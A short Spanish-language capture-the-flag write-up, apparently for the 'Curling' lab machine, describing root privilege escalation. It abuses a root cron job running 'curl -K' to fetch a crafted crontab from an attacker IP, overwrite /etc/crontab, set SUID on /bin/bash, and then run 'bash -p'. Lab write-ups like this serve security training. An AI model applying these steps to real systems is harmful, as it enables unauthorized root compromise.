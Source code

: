 ##### Enumeracion
Ejecutamos el [[PSPY]]
![[Curling18.png]]
Vemos en el PID 2872 el curl que manda con el parametro `curl -K`, que sirve para especificar la configuracion mediante un archivo.    [[curl]]

##### Explotacion
Vamos a crear un archivo exploit en un nuestra maquina
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

* * * * * root chmod u+s /bin/bash
```
Vamos a abrir un server con [[python3 -m http.server]]

Contenido del archivo input
```
url = "http://10.10.16.4/exploit"              // En donde esta el 10.10.16.4 va nuestra ip de atacante y despues del / va el nombre del archivo
output = "/etc/crontab"
```

Ahora cuando se ejecute la tarea cron, va a hacer que la bash tenga permisos SUID
![[Curling19.png]]
Una vez que vemos la s, ya sabemos que podemos ejecutar `bash -p` para ganar permisos en la bash
![[Curling20.png]]
Ya estamos logeados como root, asi que podemos visualizar la flag


